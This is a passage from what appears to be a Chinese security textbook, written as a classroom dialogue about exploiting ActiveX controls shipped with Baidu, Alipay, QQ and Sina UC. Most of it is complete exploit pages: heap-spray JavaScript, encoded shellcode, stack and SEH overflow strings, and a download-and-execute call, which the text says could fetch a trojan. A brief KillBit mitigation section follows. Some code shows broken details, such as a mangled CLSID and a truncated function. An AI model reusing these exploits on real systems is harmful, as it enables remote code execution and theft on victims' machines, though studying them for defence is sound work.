}
```

“之前说了，com 是我们对该 ActiveX 控件的引用名，因此这就是在调用该 ActiveX 控件的 DloadDS 函数。函数的参数为 `"http://192.168.0.249/calc.cab", "calc.exe", 0`，就是下载 http://192.168.0.249/ 上的 calc.cab，重命名为 calc.exe 然后执行。”

老师补充道：“这段代码可以作为 ActiveX 函数调用的模板，要调用别的 ActiveX 控件的其它函数，我们只要改变 CLASSID 为对应的 CLSID，函数为对应的函数就可以了。好了，我们用 Windows 自带的 diantz 工具把计算器 calc.exe 压缩成 calc.cab 吧。该工具的使用方法为 `diantz calc.exe calc.cab`，如图 5-5。”

“生成了 calc.cab 文件后，将其放在 192.168.0.249 这台 Web 服务器的根目录下。在有漏洞的电脑上远程访问我们构造的 soba.html，页面上会显示一个按钮，如果我们点击该按钮，就会执行控件的 DloadDS 函数，顺利下载 calc.cab 并执行，如图 5-6。”

“哦，弹出计算器了！”小菜们问道：“如果我们把计算器换成木马程序，就可以下载并执行木马程序了吗？”

“那是当然的。”

“哎？这样都可以啊！果然利用起来很方便啊。百度的这个漏洞可有点低级啊！”小菜们说道。

“呵呵，这是只凭隐匿实现安全的典型例子——就是以为别人不会找到这个函数。其实，打造安全环境的要点之一就是决不要以为别人找不到这个东西，攻击者是一定会找到的！”

“哦，我有点明白了。”小菜 A 说道，“ActiveX 控件也是调用函数完成功能，如果 ActiveX 函数的实现有漏洞，那么就会导致有可以利用的漏洞吧！”

“太对了！我们马上看一些 ActiveX 的溢出漏洞吧。”


### 5.1.4 Heap Spraying：支付宝漏洞

“我们现在看到的这个漏洞可是前段时间在安全界闹得沸沸扬扬的阿里巴巴支付宝漏洞哦。”老师说道。

“哎？沸沸扬扬？”

“是的，cocoruder 在去年底向阿里巴巴报告了一个淘宝旺旺 ActiveX 控件溢出的漏洞，结果阿里巴巴没有发布公告，偷偷把漏洞修补了。有了这个教训，后来 cocoruder 发现了支付宝登录控件代码执行漏洞的时候就直接公布了，但阿里巴巴还是打死也不承认有漏洞，更过分的是，在悄悄修补了漏洞后，还做了一个所谓的‘专家检测’，完全否认有该漏洞！实在是……”

“啊？补了漏洞之后再针对这个漏洞做检测？这不是……实在太无耻了！”

“唉，国内厂商对网络安全的态度啊……以为藏着就好了。”老师摇了摇头，“好了，不说这些了，既然阿里巴巴打死也不承认有过漏洞，我们就来看看阿里巴巴支付宝是否真的有漏洞吧！首先安装支付宝 1.0.0.7 版，根据 cocoruder 的报告，漏洞存在于 ActiveX 控件 pta.dll 导出的 Remove() 函数中，相关信息如下。”

```text
InprocServer32: pta.dll
ClassID: {66F50F46-70A0-4A05-BD5E-FBCC0F9641EC}
[Id(0x60030001), helpstring("method Remove")] void Remove([in] int idx);
```

“哦，是在 IE 中调用这个控件的 Remove 函数吧。”小菜们说道，“我们依照 ActiveX 函数的调用模板写出框架来。”

```html
<html>
<head>
<script>
// 按钮点击后的响应函数
function DownloadCalcAndRun()
{
    // 调用支付宝 ActiveX 控件的 Remove 函数
    com.Remove(1);
}
</script>
</head>

<!-- 引用支付宝 ActiveX 控件，名字 ID 设为 com -->
<OBJECT ID="com"
    CLASSID="CLSID:{66F50F46-70A0-4A05-BD5E-FBCC0F9641EC}"></OBJECT>

<!-- 在页面上生成一个按钮，点击的响应函数是 DownloadCalcAndRun -->
<button onclick="javascript:DownloadCalcAndRun();">DownloadCalcAndRun</button>
</html>
```


“只要改变 CLASSID 为对应 ID，改变调用函数为 Remove 就可以了。”小菜们笑道。

“大家学得真快！就是这样的，这里的关键之处就在于如何利用这个漏洞了。”老师说道，“ActiveX 漏洞的利用也是三步曲：漏洞的触发、Shellcode 的编写和跳转的完成。我们首先来看漏洞的产生。为了清晰地看到漏洞相关代码，我们用逆向分析利器——IDA（IDA 是目前最棒的一个静态反编译软件，是破解者不可缺少的利器）反编译 pta.dll，pta.dll 位于系统目录 \system32\aliedit 路径下。我们直接把 pta.dll 拖到 IDA 中，点击确定，IDA 就开始分析了。待 IDA 初步分析完成后，按 G，输入代码位置 10003D4E，就会到达有问题代码的地方，如图 5-7。”

反汇编代码如下：

```text
text:10003D4E ; Remove
text:10003D4E sub_10003D4E proc near
text:10003D4E
text:10003D4E arg_0 = dword ptr 4
text:10003D4E arg_4 = dword ptr 8
text:10003D4E
text:10003D4E mov eax, [esp+arg_4]
text:10003D52 test eax, eax
text:10003D54 jnz short loc_10003D78
text:10003D56 push esi
text:10003D57 mov esi, [esp+4+arg_0]
text:10003D5B shl eax, 4
text:10003D5E add eax, [esi+8]
text:10003D61 push edi
text:10003D62 mov edi, eax
text:10003D64 mov eax, [edi+8]
text:10003D67 push eax
text:10003D68 mov ecx, [eax]
text:10003D6A call dword ptr [ecx+8]
text:10003D6D push edi
text:10003D6E lea ecx, [esi+4]
text:10003D71 call sub_10003F35
text:10003D76 pop edi
text:10003D77 pop esi
text:10003D78 loc_10003D78:
text:10003D78 xor eax, eax
text:10003D7A retn 8
text:10003D7A sub_10003D4E endp
```

“代码虽然多，但只用关注重要的地方。大家看，idx 是我们输入的 Remove 函数的参数，这是完全可以控制的。从注释中可以看到，代码对 idx 的值做了如下的操作：idx << 4，[(idx << 4)+8] ==> eax，然后 [[(idx << 4)+8]] ==> ecx，最后 call 到 [[(idx << 4)+8]]+8。换句话说，程序最后会执行 [[(idx << 4)+8]]+8 位置处的代码。比如我们设 idx 的值为 0x41414141，那么程序会执行 [[[41414140h+8]]+8] 地址中的代码。”

“哦！我们能把 Shellcode 放在某个地方，然后跳转到那个地方执行 Shellcode 就行了吧。”小菜们说道。

“是的，但是把 Shellcode 放在哪个地方呢？”老师反问道。

“这个这个……是啊，idx 设成什么呢？又如何把 Shellcode 放在那里呢？”小菜们愣住了。

“为了增大跳转到 Shellcode 的几率，在 IE 相关漏洞的利用代码中经常使用一种叫做 Heap Spraying 的技术。Heap Spraying 技术是 Blazde 和 SkyLined 在 2004 年提出的，该技术的基础是 JavaScript 可以分配内存，而且也可以填充所分配内存的值。其方法是用 JavaScript 分配很多大片的内存，用很多 nop 指令覆盖这些内存，在每片内存的末尾都附上我们的 Shellcode。这样只要跳转到分配的大片内存中，就会顺着 nop 往下执行，最后进入到我们的 Shellcode 中。之所以可以这样做，是因为 JavaScript 是可以分配系统内存的。”老师说道，“像下面这段 JavaScript 代码就可以分配 200M 的内存。”

```javascript
var nop = unescape("%u9090%u9090");
// 分配 1MB 的字符串，先是 NOP 指令，跟着 Shellcode
// JavaScript 字符串的结构如下：
// malloc-header | string length | NOP slide | shellcode | NULL terminator
// 32 bytes      | 4 bytes       | x bytes   | y bytes   | 2 bytes
// 构造 nop
while (nop.length <= 0x100000/2)
    nop += nop;
// 用 substring 精确分配 nop 串长度，分配的 nop 长度为 目标长度/2 - 32/2 - 4/2 - shellcode 长度 - NULL 字符/2
nop = nop.substring(0, 0x100000/2 - 32/2 - 4/2 - shellcode.length - 2/2);

var x = new Array();
// 放 200 块，每块 1M，共 200M
for (var i = 0; i < 200; i++)
{
    x[i] = nop + shellcode;
}
```


“解释一下，每一块 nop + shellcode 的大小是 1M，就是 0x100000 字节。NOP 和 Shellcode 在内存中是以 Unicode 表示的，长度会乘以 2，加上 32 字节的堆头部、4 字节字符串长度位和 2 字节结束标记，那么分配 1M 内存拥有的内容是：Nop 长度 x 2 + shellcode 长度 x 2 + 32 + 4 + 2 = 0x100000。所以在 Shellcode 一定的情况下，构造的 nop 长度应该是 = 0x100000/2 - 32/2 - 4/2 - shellcode.length - 2/2，这样可以确保把 1M 填充满而又不把 Shellcode 挤出去。”

小菜们在线上划了划这个算式，“哦！的确是这样啊！”接着又看了看代码，问道：“nop 用的是 unescape("%u9090%u9090")，unescape 是干嘛的？”

“unescape 是用来解经过 escape 函数加密后的字符串，这样做是为了避免 0x90 被扩展成 Unicode 时被改变。nop + shellcode 是 1M，那么循环 200 次就正好分配 200M 的内存。”老师说道，“如果在分配前内存正常的分布如图 5-8 所示，那么在分配了 200M 内存后，内存的分布就变为了如图 5-9 所示的样子。”

“这样只要能进入到那片被填充的内存中就可以执行到 Shellcode 了。”老师继续说道：“我们在这个漏洞里把所有的地址都置成 0x0d0d0d0d，把参数 idx 设为 0x00d0d0d0，可以达到很好的攻击效果。也就是说，我们分配很大的内存，把值全部覆盖为 0x0d0d0d0d，后面紧跟 Shellcode，再把 Remove 函数的参数值 idx 设置为 0x00d0d0d0。这样的话，会执行 [[0d0d0d00h+8]]+8 处的代码。因为内存被大片大片地覆盖，那么 0d0d0d00h+8 为 0d0d0d08h，里面的值是被覆盖的 0x0d0d0d0d，指令就成了 call [0x0d0d0d0d + 8]。而 0x0d0d0d0d+8 里面的值还是被覆盖成的 0x0d0d0d0d，这样 call [0x0d0d0d0d+8] 实际就是执行 call 0x0d0d0d0d 了，从而跳到 0x0d0d0d0d 的位置。最后就会顺着这些 0d0d0d0d 往下执行，一直执行到我们的 Shellcode 了。其实覆盖成 0c0c0c0c 也行，Remove 的参数 idx 对应改为 0x00c0c0c0 即可。好了，基于大家写的函数调用框架，再加上上面的 Heap Spraying 原理，构造出利用页面吧。”

```html
<html>
<head>
<script>
function DownloadCalcAndRun()
{
    var heapSprayToAddress = 0x0d0d0d0d;
    var payloadCode = myShellcode;
    unescape("%u9090%u9090%u9090%u9090...");

    var heapBlockSize = 0x400000;
    var payloadSize = payloadCode.length * 2;
    var spraySlideSize = heapBlockSize - (payloadSize + 38);
    var spraySlide = unescape("%u0d0d%u0d0d");
    spraySlide = getSpraySlide(spraySlide, spraySlideSize);
    heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;

    memory = new Array();
    for (i = 0; i < heapBlocks; i++)
    {
        memory[i] = spraySlide + payloadCode;
    }

    com.Remove(0x00d0d0d0)
}

function getSpraySlide(spraySlide, spraySlideSize)
{
    while (spraySlide.length * 2 < spraySlideSize)
    {
        spraySlide += spraySlide;
    }
}
```

# 第五章 客户端漏洞的利用

```html
spraySlide = spraySlide.substring(0, spraySlideSize / 2);
return spraySlide;

</script>
</head>
<OBJECT ID="com"
CLASSID="CLSID:6bf50f46-70a0-4a05-bd5e-fbcc0f641ec">
</OBJECT>
<button onclick="javascript:DownloadCalcAndRun()">DownloadCalcAndRun</button>
</html>
```


“代码中有详细的注释，我再次强调下整个流程。就是以 4M 内存为一块，覆盖成 0x0d0d0d0d 的字符串，在每块内存的末尾附上运行计算器的 Shellcode；一直这样 4M、4M 地覆盖，直到覆盖掉我们的目标地址 0x0d0d0d0d 为止。最后以 0x00d0d0d0 为参数，调用控件的 Remove 函数 com.Remove(0x00d0d0d0)，我们用 IE 打开页面，点击按钮，就会弹出计算器，但同时 IE 也被关闭了，如图 5-10。”


“哦！成功了！”

“马克思主义教育我们：要透过现象看本质。我们再仔细研究下 IE 打开构造的页面时究竟发生了什么吧。使用 OllyDbg 加载 IE 进程 iexplore，然后打开该页面，如图 5-11。”

“页面要点击了按钮之后才会调用漏洞函数，这样做的好处是可以让 IE 加载所要的 DLL，但又不会马上执行漏洞代码。这样我们可以很从容地在内存中观察代码。我们进入 pta.dll 模块，其加载基址是 03320000，漏洞代码的位置就应该是 03323D4E。大家记住：地址的后四位和 IDA 静态分析时是一致的。按 Ctrl+G，输入 03323D4E，跳达该代码处，我们按 F2 设置断点，如图 5-12。”


“这时候我们再点击页面中的按钮，就在 remove 函数开始处中断下来了，如图 5-13。”


“可以看到，参数值是 00D0D0D0，就是我们传进去的 idx 参数。按 F8 往下单步执行，EDI+8 就是 0d0d0d08，里面的值也是 0d0d0d0d。我们看看 0d0d0d00 附近的值是些什么吧：在左下方的内存窗口中输入 Ctrl+G，填入位置 0d0d0d00，可以看到周围的内存都被我们的 Heap Spraying 技术覆盖成了 0d0d0d0d，如图 5-14。”


“因此，和我们预想的一样，当调用 CALL DWORD PTR DS:[ECX+8]，就是 call [0d0d0d15] 的时候，里面的指令还是 0d0d0d0d，如图 5-15。”


“那 0d0d0d0d 是什么指令呢？我们按 F7，跟踪跳入之后，可以看到 0d0d0d0d 是指令 OR EAX,0D0D0D0D，这是不会影响正常的 Shellcode 指令的，如图 5-16。”


“好了，顺着 0d0d0d0d 往下执行，最后到了我们的 Shellcode，如图 5-17。”


“Game Over，内存中的 Shellcode 如图 5-18 所示。”

“亲爱的同学们，这就是页面中的 Shellcode，低字节被放在了低位，高字节被放在了高位。简要介绍下该 Shellcode 的功能：先是动态寻找 WinExec 和 ExitProcess 的函数地址，然后执行 WinExec 和 ExitProcess，这样就达到弹出计算器并退出 IE 的效果。我们跟踪一下 Shellcode 的执行过程，可以看到最后在一个 Ret 指令时，堆栈的结构被构造成了：|WinExec 地址|ExitProcess 地址|WinExec 的参数 calc|，如图 5-19。”

“这样就会先执行 WinExec("calc") 弹出计算器，然后在 WinExec 返回后去执行 ExitProcess 关闭 IE。”

“哦，和突破 DEP 的 return into lib 有异曲同工之处啊！”

“是的。按 F9 执行下去，就会成功地弹出计算器，然后 IE 随之关闭，如图 5-20。”

“乌拉！明白了！”小菜们清楚地了解了整个流程。

“大家可以看出，客户端漏洞的利用还是遵循那溢出三步曲：定位、Shellcode 和跳转。”老师总结道，“大家也看到了，这个阿里巴巴支付宝漏洞是很严重的！随便换一个 Shellcode，就可以做更有威胁的事情，比如下载木马、盗窃用户账号等。因此，阿里巴巴如此遮遮掩掩，是没有任何道理的！”


### 5.1.5 覆盖返回地址覆盖异常链：QQ 漏洞

“好了，在介绍了阿里巴巴的漏洞后，我们再来看另一个国内著名公司腾讯的 ActiveX 控件漏洞吧。”

“啊？腾讯？不会是 QQ 吗？”小菜们问道。

“呵呵，是的！就是安装 QQ 时所带的 ActiveX 控件带有漏洞。”

“哇！在这只小企鹅身上出现了漏洞，危害性可不小啊。”

“不过还好，漏洞不是企鹅本身，而是所带的 ActiveX 控件。嗯，不过腾讯对安全的重视程度非常高，迅速补上了补丁，而且发出了负责任的安全公告，如图 5-21。”

老师说道：“鉴于腾讯对安全比较负责任，我们在这里就轻拍一下好了。漏洞存在于 VQQPlayer.ocx 中，安装了 QQ 后，会在 QQ 的安装目录下出现该控件文件，如图 5-22。”

“在 VQQPLAYER.OCX 中，由于程序员的粗心而存在一个标准的栈溢出漏洞，可以拷贝过长的字符串，覆盖函数返回地址或者异常处理链。控件的 ClassId 是 {AC3A36A8-9BFF-410A-A33D-2279FFEB69D2}，漏洞函数是 LaunchP2PShare，其原型为：”


```c
[id(0x00000030)]
VARIANT_BOOL LaunchP2PShare(
    BSTR szExeName,
    long nDuration);
```


“漏洞产生的原因是第一个参数没有进行长度检查，当它为超长字符串时将造成一个栈溢出。使用 IDA 反编译 VQQPLAYER.OCX，其漏洞代码如下。”

```asm
.text:000407D?    lea     eax, [ebp+var_16C]
.text:000407D?    push    edi
.text:000407D?    push    eax
.text:000407D?    call    sub_10006165
.text:10004084    push    [ebp+arg_0]
.text:10004087    lea     eax, [ebp+var_15C]
.text:1000408D    push    eax
.text:1000408E    call    strcat
```

“[ebp+arg_0] 是 LaunchP2PShare 函数的第一个参数，而 [ebp+var_15C] 保存的是 QQ 的安装目录，实际就是执行 strcat([ebp+var_15C],[ebp+arg_0])。strcat 是个危险的函数，如果拷贝的字符串过长，就会覆盖掉栈中的返回地址和异常处理链。因为在 [ebp+var_15C] 中，存储的首先是 QQ 的安装目录，然后再接我们传进去的参数，即是这样的结构 C:\PROGRA~1\Tencent\QQ\AAAAAA……如果知道安装路径，我们可以精确地覆盖返回函数的 EIP。”

“嗯，这个简单。”小菜们说道，“ebp+var_15C 就是 ebp-15C，覆盖到 EIP 就是 EBP+4，需要 15C+4=160=(352)d 的字符，减去我们的安装路径长度 23，就是 329 个字符到达 EIP。”

“好的，大家试着使用 Heap Spray 模板利用一下这个漏洞吧。”

“好啊，先用模板 Heap Spray 内存直到 0x0c0c0c0c 位置。”

```javascript
var heapSprayToAddress = 0x0c0c0c0c;
var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape('%u9090%u9090');
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i = 0; i < heapBlocks; i++)
{
    memory[i] = spraySlide + shellcode;
}

function getSpraySlide(spraySlide, spraySlideSize)
{
    while (spraySlide.length * 2 < spraySlideSize)
    {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
```

“Shellcode 就使用现成的打开计算器的功能。”

```javascript
var shellcode =
unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%E8FC%0044%0000%u458B%u8B3C%u057C%u0178%uB8EF%u184F%u5F8B%u0120%u49E8%u348B%u018B%u3E59%u8C0B%u84AC%uC074%u01C1%u0CF8%u4EB8%u543B%u0424%uE575%u5FEB%u0124%u66E3%u0C8B%uBE4B%u1C5F%u1ED1%u1C8B%u018B%u245C%uC304%u031F%u8649%u3040%uC085%uC78B%u408B%u80EC%u07E8%u8BAD%u8888%u0DEB%u808B%u00B0%u000C%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE208%u6873%uFE98%uE8A8%uEF57%u63E7%u6C61%u0063");
```

“然后引用该 ActiveX 控件。”

```html
<OBJECT ID="com"
CLASSID="CLSID:AC3A36A8-9BFF-410A-A33D-2279FFEB69D2"></OBJECT>
```

“并调用它的 LaunchP2PShare 函数，把函数的第一个参数长度设为 329，然后接覆盖的返回地址 0x0c0c0c0c。”

```javascript
com.LaunchP2PShare("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x0c\x0c\x0c\x0c", 1000)
```

“好了，页面合起来如下。”小菜们拍了拍手说道。

```html
<html>
<head>
<OBJECT ID="com"
CLASSID="CLSID:AC3A36A8-9BFF-410A-A33D-2279FFEB69D2"></OBJECT>
</head>
<body>
<script language="javascript">
function ClickForRunCalc()
{
    var heapSprayToAddress = 0x0c0c0c0c;
    var shellCode = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090...");
    var heapBlockSize = 0x400000;
    var payLoadSize = shellcode.length * 2;
    var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
    var spraySlide = unescape("%u9090%u9090");
    spraySlide = getSpraySlide(spraySlide, spraySlideSize);
    heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
    memory = new Array();
    for (i = 0; i < heapBlocks; i++)
    {
        memory[i] = spraySlide + shellcode;
    }

    com.LaunchP2PShare('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0c\x0c\x0c\x0c', 1000);
}

function getSpraySlide(spraySlide, spraySlideSize)
{
    while (spraySlide.length * 2 < spraySlideSize)
    {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}

</script>
<button onclick="javascript:ClickForRunCalc()">
ClickForRunCalc</button>
</body>
</html>
```


“我们使用 IE 打开该页面试试吧，bingo！弹出计算器了，利用成功，如图 5-23！”

“哈哈哈哈！”教室里传出了小菜们得意的笑声。

“非常不错，大家再试试结合 Heap Spray 的技术，覆盖异常链 SEH 的方法吧。”

“嗯，Heap Spray 是把大片内存覆盖成 0x0c0c0c0c，而覆盖异常链是覆盖掉异常处理函数的指针。”小菜们回想到，“莫非把异常处理指针覆盖成我们 Heap Spray 后的一个内存地址？”


“不错，就是这样的！我们可以先用 Heap Spray 覆盖到目标内存 0x0c0c0c0c，然后覆盖异常处理指针为 0x0c0c0c0c。这样函数返回发生异常时就会跳到异常处理函数 0x0c0c0c0c 处来处理，而 0x0c0c0c0c 是我们覆盖的大量 nop 和 Shellcode，计算机就会顺着 nop 执行，最后进入我们的 Shellcode 了，如图 5-24。”

“好的，明白了。我们把 EIP 覆盖成非法的地址，比如 BBBB，然后继续往下覆盖，全部覆盖成 0x0c0c0c0c，直到保证能覆盖到 SEH 链为止。也就是说，上面那个构造页面其他的都不变，只把 LaunchP2PShare 函数的参数更改为如下。”

```javascript
com.LaunchP2PShare('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c ...', 10000)
```这个参数后，覆盖后的堆栈结构如图 5-25 所示。

“大家看，0012A690 处保存的是返回地址，被覆盖成了 0x42424242。再往下，0012A710 的地方是 SE Handler，被覆盖成了 0x0c0c0c0c。因为附近都是 0c0c，所以即使长度偏差一些也不会影响覆盖 SEH 的效果。我们测试一下，使用 IE 打开 qq_seh.html 页面，又成功了，弹出了两个计算器，如图 5-26。”

### 5.1.6 “盲”打造利用代码：UC 漏洞

“看了这么多 ActiveX 的例子，大家有什么收获吗？”

“当然有了！客户端漏洞的利用还是那经典的溢出三步曲，真是万变不离其宗啊！”

“嗯，因为 JavaScript 是我们自己写的，所以可以在页面中分配内存进行 Heap Spray，真是有意思啊。”

小菜们七嘴八舌地说道。

“非常不错，我们再来看一个漏洞，新浪 UC 的漏洞。新浪 UC 是中国非常流行的 IM 工具之一，其多个 ActiveX 控件的参数缺乏必要的验证，攻击者可以构造恶意网页，远程控制安装了 Sina UC 的用户的计算机。现在大家看这样的漏洞公告不陌生了吧。我们最关心的是漏洞所在的地方：存在漏洞的控件是 BROWSER2UC.dll，其 Classid 为 {77AE4780-75E0-4CB0-A162-D1BBE3D50384}，漏洞函数为 SendDownLoadFile。函数原型如下。”

```vb
Sub SendDownLoadFile(
    ByVal astDownDir As String
)
```

“有了这些信息足够打造出一个利用页面了！”小菜们嚷道，“我们先用 Heap Spray 模板扩展内存到 0x0c0c0c0c。”

```javascript
var heapSprayToAddress = 0x0c0c0c0c;
var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u9090%u9090");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i = 0; i < heapBlocks; i++) {
    memory[i] = spraySlide + shellcode;
}

function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length * 2 < spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
```

“Shellcode 还是用现成的打开计算器的功能。”

```javascript
var shellcode =
unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090...");
```

“然后使用 CLASSID 引用该 ActiveX。”

```html
<OBJECT ID="com"
 CLASSID="CLSID:{77AE4780-75E0-4CB0-A162-D1BBE3D50384}"></OBJECT>
```

“并调用它的漏洞函数 SendDownLoadFile，我们根本不用分析，只要用过长的参数一直覆盖，直到把 SEH 覆盖成 0x0c0c0c0c，可以执行 Shellcode 为止即可：com.SendDownLoadFile("AAAA......AAAA\x0c\x0c\x0c\x0c......\x0c\x0c\x0c\x0c");。把它们合起来，UC.html 页面就如下。”

```html
<html>
<head>
<OBJECT ID="com"
CLASSID="CLSID:77AE4780-75E0-4CB0-A162-D1BBE3D50384"></OBJECT>
</head>
<body>
<script language="javascript">
function ClickForRunCalc() {
    var heapSprayToAddress = 0x0c0c0c0c;
    var shellcode = unescape("%u9090%u9090%u9090%u9090%u9090...");
    var heapBlockSize = 0x400000;
    var payloadSize = shellcode.length * 2;
    var spraySlideSize = heapBlockSize - (payloadSize + 0x38);
    var spraySlide = unescape("%u9090%u9090");
    spraySlide = getSpraySlide(spraySlide, spraySlideSize);
    heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
    memory = new Array();
    for (i = 0; i < heapBlocks; i++) {
        memory[i] = spraySlide + shellcode;
    }
    com.SendDownLoadFile('AAAA', 'AAAA\x0c\x0c\x0c\x0c...');
}
function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length * 2 < spraySlideSize)
        spraySlide += spraySlide;
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
</script>
<button onclick="javascript:ClickForRunCalc();">ClickForRunCalc</button>
</body>
</html>
```

“我们测试一下，用 IE 访问该页面，哈哈！又成功弹出计算器了！”小菜们打出了 V 字手势，“根据公告，完全没有进行汇编级的分析就搞定了！”

### 5.1.7 对抗措施

“不错，大家都掌握了这类 ActiveX 漏洞的利用。”老师说道，“大家也都看到了，如果在安装某个软件时也安装了存在漏洞的 ActiveX 控件，那么即使当时没有使用该软件，浏览恶意页面的时候也会中招，所以危害是非常大的。为了避免中招，微软给出了不卸载 ActiveX 的解决方案：通过设置 KillBit 不激活对应的 ActiveX。我们可以在注册表中对相应的 CLSID 设置 Killbit。比如对于 UC 的 CLSID：77AE4780-75E0-4CB0-A162-D1BBE3D50384，我们可以在注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{77AE4780-75E0-4CB0-A162-D1BBE3D50384} 位置，设置 DWORD 类型的 Compatibility Flags 为 0x00000400 来禁用它。我们点击开始→运行，输入 regedit，会弹出注册表编辑器。找到上述的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\ 位置，如图 5-27。”

“这么多啊，不过没有找到我们的 {77AE4780-75E0-4CB0-A162-D1BBE3D50384} 呢？”

“如果没有的话，就得我们自己来设置了。右键点击 ActiveX Compatibility，在弹出菜单中选择‘新建’→‘项’，如图 5-28。”

“将这个项的名称改为我们的 {77AE4780-75E0-4CB0-A162-D1BBE3D50384}，然后在该项中新建‘双字节值’，如图 5-29。”

“把这个新建的双字节值改名为‘Compatibility Flags’，设置其值为十六进制的 400，如图 5-30。”

“这样设置后，IE 就不会加载该 ActiveX 控件了。设置 Kill-Bit 完成。当然，我们也可以直接把有问题的控件 dll 删掉，比如删掉 UC 的 BROWSER2UC.dll，这样也不会受到攻击。但这样做的话，需要恢复该 dll 后才能使用了。最后要说的是，如果没有安装 ActiveX 控件，机器上就不会有相应的漏洞了。但是，上网冲浪不可避免地要使用浏览器，如果浏览器本身出现了漏洞……”

“IE 本身出现漏洞？”小菜们舔了舔流下的口水。

“那可是在线浏览器啊！”

“是的，每当浏览器特别是 IE 出现了高危漏洞，都会引发新一轮的挂马高潮，导致无数的机器中招。接下来我们看看 IE 的相关漏洞吧。”

## 5.2 IE 漏洞的利用

“要明白 IE 漏洞的原因，我们要先从本质上理解 IE 的作用。”老师说道。

### 5.2.1 IE 漏洞入门

